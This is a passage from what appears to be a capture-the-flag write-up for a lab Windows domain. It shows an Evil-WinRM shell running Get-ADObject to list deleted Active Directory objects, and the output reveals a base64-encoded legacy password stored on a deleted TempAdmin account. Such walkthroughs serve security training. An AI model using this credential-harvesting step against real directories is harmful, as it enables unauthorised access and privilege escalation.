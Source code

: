 We execute the Powershell command to list the deleted objects and see some
`cascadeLegacyPwd` filed for the user `TempAdmin`.

    :::text
    *Evil-WinRM* PS C:\Users\arksvc\Desktop>  Get-ADObject -filter 'isdeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *

    <SNIP>

    CanonicalName                   : cascade.local/Deleted Objects/User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    CN                              : User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    Created                         : 1/26/2020 2:34:31 AM
    createTimeStamp                 : 1/26/2020 2:34:31 AM
    Deleted                         : True
    Description                     :
    DisplayName                     :
    DistinguishedName               : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/1/1601 12:00:00 AM}
    instanceType                    : 4
    isDeleted                       : True
    LastKnownParent                 : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
    Modified                        : 1/26/2020 2:40:52 AM
    modifyTimeStamp                 : 1/26/2020 2:40:52 AM
    msDS-LastKnownRDN               : User
    Name                            : User
                                      DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
    nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
    ObjectCategory                  :
    ObjectClass                     : container
    ObjectGUID                      : 746385f2-e3a0-4252-b83a-5a206da0ed88
    ProtectedFromAccidentalDeletion : False
    sDRightsEffective               : 0
    showInAdvancedViewOnly          : True
    uSNChanged                      : 196700
    uSNCreated                      : 196690
    whenChanged                     : 1/26/2020 2:40:52 AM
    whenCreated                     : 1/26/2020 2:34:31 AM

    accountExpires                  : 9223372036854775807
    badPasswordTime                 : 0
    badPwdCount                     : 0
    CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
    CN                              : TempAdmin
                                      DEL:f0cc344d-31e0-4866-bceb-a842791ca059
    codePage                        : 0
    countryCode                     : 0
    Created                         : 1/27/2020 3:23:08 AM
    createTimeStamp                 : 1/27/2020 3:23:08 AM
    Deleted                         : True
    Description                     :
    DisplayName                     : TempAdmin
    DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
    dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
    givenName                       : TempAdmin
    instanceType                    : 4
    isDeleted                       : True
    LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
    lastLogoff                      : 0